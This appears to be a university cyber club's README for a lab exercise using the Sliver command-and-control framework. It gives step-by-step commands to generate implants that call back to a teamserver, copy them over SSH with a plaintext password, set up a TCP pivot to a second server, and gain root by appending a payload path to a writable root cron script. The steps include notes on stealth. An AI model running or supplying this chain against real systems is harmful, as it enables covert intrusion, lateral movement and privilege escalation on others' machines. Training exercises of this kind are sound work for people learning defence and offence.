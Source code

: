 # Cyber Ops Unit Sliver Setup
All the commands and files needed to set up the exercise, reminder that this exercise will **not** work over the TAMU network (because we can't port forward without access to the routers) and will have to be done over hotspot, where everyone will (probably) be on the same subnet, meaning they can directly SSH to the first machine

Make sure to run `sudo systemctl start sliver.service` to get Sliver working

Commands used:
1. Generate Sliver Implant: `generate --os linux --arch arm64 --name [Implant Name] --http [IP of Teamserver]`
2. Copy over to Intermediate server: `scp [Implant Name] aeverwooddesktop@[IP of Intermediate Server]:/home/aeverwooddesktop/Documents` (Password is 'password')
3. Run Implant: `./[Implant Name] &`
4. View sessions: `sessions`
5. Use the Implant: `use [session number]`
6. Create a pivot through that implant: `pivots tcp --lport [Pivot Port]`
7. Generate an implant for that pivot: `generate --os linux --arch arm64 --tcp-pivot [IP Address of Intermediate Server:[Pivot Port] --name [Pivot Implant Name]`
8. Upload that implant to his desktop with the upload command (More blendy than another SCP): `upload ./[Pivot Implant Name in Local Directory] ./[Pivot Implant Name in Remote Directory]`
9. Use our implant to scp it over to the Final Server: `execute -o scp [Pivot Implant Name] aeverwooddesktop@[IP of Final Server]:/home/aeverwooddesktop/Documents` (His desktop is trusted because of the scp keys so there is no need for a password)`
10. Navigate to the tmp directory and see what is in one of the root_cron_job files: `execute -o cat root_cron_job_1.sh`
11. Append our file path to one of the cron job scripts in order to privilage escalate: `execute -o /bin/bash -c 'echo "/home/aeverwood/Documents/uhoh" >> /tmp/root_cron_job_1.sh'` The execute command is 'command [arguments]' meaning append doesn't work, so we need to use the -c flag to run it in a /bin/bash shell
